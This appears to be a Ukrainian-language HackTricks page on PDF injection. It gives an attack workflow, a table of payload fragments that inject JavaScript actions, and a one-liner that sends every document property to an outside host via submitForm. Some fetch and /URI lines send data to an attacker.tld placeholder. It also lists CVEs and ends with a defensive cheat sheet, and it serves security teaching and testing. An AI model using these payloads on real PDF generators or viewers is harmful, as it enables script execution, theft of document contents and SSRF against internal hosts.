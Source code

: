 # PDF Injection

{{#include ../../banners/hacktricks-training.md}}

**Якщо ваш ввід відображається всередині PDF-файлу, ви можете спробувати ввести PDF-дані для виконання JavaScript, виконати SSRF або вкрасти вміст PDF.**
Синтаксис PDF надзвичайно ліберальний – якщо ви можете вийти з рядка або словника, який вбудовує ваш ввід, ви можете додати абсолютно нові об'єкти (або нові ключі в тому ж об'єкті), які Acrobat/Chrome з радістю розпарсить.
З 2024 року хвиля звітів про баги показала, що *одна неекранована дужка або зворотний слеш достатньо* для повного виконання скрипту.

## TL;DR – Сучасний робочий процес атаки (2024)
1. Знайдіть будь-яке значення, контрольоване користувачем, яке потрапляє всередину **(рядка в дужках)**, `/URI ( … )` або `/JS ( … )` поля в згенерованому PDF.
2. Введіть `) ` (закриваючи рядок), за яким слідує один з примітивів нижче, і закінчіть ще однією відкриваючою дужкою, щоб зберегти синтаксис дійсним.
3. Доставте шкідливий PDF жертві (або до бекенд-сервісу, який автоматично рендерить файл – чудово для сліпих багів).
4. Ваш вантаж виконується в переглядачі PDF:
* Chrome / Edge → PDFium Sandbox
* Firefox → PDF.js (див. CVE-2024-4367)
* Acrobat → Повний JavaScript API (може ексфільтрувати довільний вміст файлів за допомогою `this.getPageNthWord`)

Приклад (перехоплення посилання на анотацію):
```pdf
(https://victim.internal/) ) /A << /S /JavaScript /JS (app.alert("PDF pwned")) >> /Next (
```
*Перший `)` закриває оригінальний рядок URI, після чого ми додаємо новий **Action** словник, який Acrobat виконає, коли користувач натисне на посилання.*

## Корисні примітиви для ін'єкцій
| Мета | Фрагмент Payload | Примітки |
|------|-----------------|-------|
| **JavaScript при відкритті** | `/OpenAction << /S /JavaScript /JS (app.alert(1)) >>` | Виконується миттєво при відкритті документа (працює в Acrobat, не в Chrome). |
| **JavaScript при натисканні на посилання** | `/A << /S /JavaScript /JS (fetch('https://attacker.tld/?c='+this.getPageNumWords(0))) >>` | Працює в PDFium та Acrobat, якщо ви контролюєте анотацію `/Link`. |
| **Сліпа ексфільтрація даних** | `<< /Type /Action /S /URI /URI (https://attacker.tld/?leak=)` | Поєднайте з `this.getPageNthWord` всередині JS, щоб вкрасти вміст. |
| **Серверний SSRF** | Те ж саме, що й вище, але націлюйте на внутрішню URL-адресу – чудово, коли PDF рендериться службами бек-офісу, які поважають `/URI`. |
| **Перенос рядка для нових об'єктів** | `\nendobj\n10 0 obj\n<< /S /JavaScript /JS (app.alert(1)) >>\nendobj` | Якщо бібліотека дозволяє вам вставляти символи нового рядка, ви можете створювати абсолютно нові об'єкти. |

## Трюк сліпої енумерації
Гарет Хейз (PortSwigger) випустив однорядковий код, який перераховує кожен об'єкт всередині невідомого документа – зручно, коли ви не можете бачити згенерований PDF:
```pdf
) /JS (for(i in this){try{this.submitForm('https://x.tld?'+i+'='+this[i])}catch(e){}}) /S /JavaScript /A << >> (
```
Код ітерує по DOM Acrobat і робить вихідні запити для кожної пари властивість/значення, надаючи вам *JSON-подібний* дамп файлу. Дивіться білу книгу “Portable Data **ex**Filtration” для повної техніки.

## Реальні помилки (2023-2025)
* **CVE-2024-4367** – Випадкове виконання JavaScript у PDF.js Firefox до 4.2.67 обійшло пісочницю з допомогою створеної дії `/JavaScript`.
* **Bug bounty 2024-05** – Великий фінансовий технологічний сервіс дозволив нотатки рахунків, надані клієнтом, які потрапили в `/URI`; звіт був оплачений на $10k після демонстрації SSRF до внутрішнього хосту метаданих за допомогою `file:///` URI.
* **CVE-2023-26155** – Впровадження команд через `node-qpdf` через несенітізований шлях PDF показує важливість екранування зворотних слешів і дужок навіть *перед* шаром PDF.

## Захисний шпаргалка
1. **Ніколи не конкатенуйте сирий ввід користувача** всередині `(`…`)` рядків або імен. Екрануйте `\`, `(`, `)` відповідно до §7.3 специфікації PDF або використовуйте шістнадцяткові рядки `<...>`.
2. Якщо ви створюєте посилання, надавайте перевагу `/URI (https://…)`, які ви *повністю* URL-кодуєте; блокуйте схеми `javascript:` у клієнтських переглядачах.
3. Видаляйте або перевіряйте словники `/OpenAction`, `/AA` (додаткові дії), `/Launch`, `/SubmitForm` і `/ImportData` під час обробки PDF.
4. На стороні сервера рендеріть ненадійні PDF за допомогою *безголового конвертера* (наприклад, qpdf –decrypt –linearize), який видаляє JavaScript і зовнішні дії.
5. Тримайте переглядачі PDF в актуальному стані; PDF.js < 4.2.67 і Acrobat Reader до липня 2024 року дозволяють тривіальне виконання коду.

## Посилання
* Gareth Heyes, “Portable Data exFiltration – XSS for PDFs”, PortSwigger Research (оновлено травень 2024). <https://portswigger.net/research/portable-data-exfiltration>
* Dawid Ryłko, “CVE-2024-4367: Arbitrary JavaScript Execution in PDF.js” (квітень 2024). <https://dawid.dev/sec/cve-2024-4367-arbitrary-javascript-execution-in-pdf-js>
{{#include ../../banners/hacktricks-training.md}}

